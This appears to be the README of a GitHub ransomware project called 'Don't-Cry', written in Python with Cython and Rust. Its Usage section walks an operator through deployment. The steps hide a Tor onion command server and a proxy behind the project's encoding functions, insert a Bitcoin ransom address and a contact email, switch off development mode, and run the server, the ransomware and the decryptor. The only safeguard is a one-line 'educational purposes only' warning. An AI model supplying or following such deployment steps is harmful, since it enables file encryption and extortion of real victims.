 <h1 align="center">Don't-Cry Ransomware PoC</h1>
  
<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue" alt="Platform">
  <img src="https://img.shields.io/github/stars/memecoder12345678/DCry-Ransomware?style=social" alt="Stars">
</div>

![DCry](imgs/DCry.png)
PoC ransomware written in Python 💀💀💀

## Usage
* Open the [`DCry.py`](src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` similarly with your encoded email address. 
  ```python 
  YOUR_EMAIL_ADDRESS = dx42(b"YOUR_ENCODED_EMAIL_ADDRESS").decode()   
  ```
* Set `dev_mode = False` to disable development mode.
* Open the [`Decryptor.py`](src/Decryptor.py) file.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:
  ```bash
  python src/Server.py
  ```
* Run the ransomware with the following command:
  ```bash
  python src/DCry.py
  ```
* Run the decryptor with the following command:
  ```bash
  python src/Decryptor.py
  ```

## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.

## FAQ 
* See details in [FAQ.md](docs/FAQ.md)

## Contributing  
* See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code Of Conduct  
* See our community standards in [CODE_OF_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security
* See the security policy in [SECURITY.md](docs/SECURITY.md)


## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
